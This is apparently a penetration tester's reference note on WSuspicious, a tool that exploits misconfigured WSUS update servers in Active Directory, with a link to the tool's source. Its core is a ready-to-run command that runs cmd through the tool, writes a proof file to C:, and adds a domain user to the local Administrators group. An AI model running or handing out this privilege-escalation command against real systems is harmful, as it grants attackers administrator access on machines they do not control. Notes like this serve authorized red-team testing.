 # WSuspicious

## [[09.AD Misconfigurations/WSUS]] [[Misconfigurations/WSUS]]
1. Add user to Admin and drop file as confirmation:
    ```bash
    .\WSuspicious.exe /command:" -accepteula -s -d cmd /c ""echo eop_executed > C:\\eop_poc.txt; net localgroup Administratoren ext_ecorp_user /add""" /autoinstall
    ```

```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/GoSecure/WSuspicious
description: WSUS exploitation tool
```